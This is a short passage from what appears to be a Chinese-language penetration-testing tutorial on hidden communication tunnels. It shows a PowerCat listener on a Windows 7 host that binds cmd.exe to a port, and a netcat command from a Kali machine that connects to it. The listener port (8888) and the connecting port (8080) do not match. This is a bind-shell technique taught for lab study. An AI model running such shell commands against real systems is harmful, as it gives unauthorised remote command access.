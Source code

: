 （2）通过nc正向连接PowerCat

在Windows7服务器上执行监听命令：

```
powercat -l -p 8888 -e cmd.exe -v
```

![](/assets/img/隐藏通信隧道基础知识/47.png)

然后再Kali主机上执行命令：

```
nc 192.168.2.13 8080 -vv
```

![](/assets/img/隐藏通信隧道基础知识/48.png)
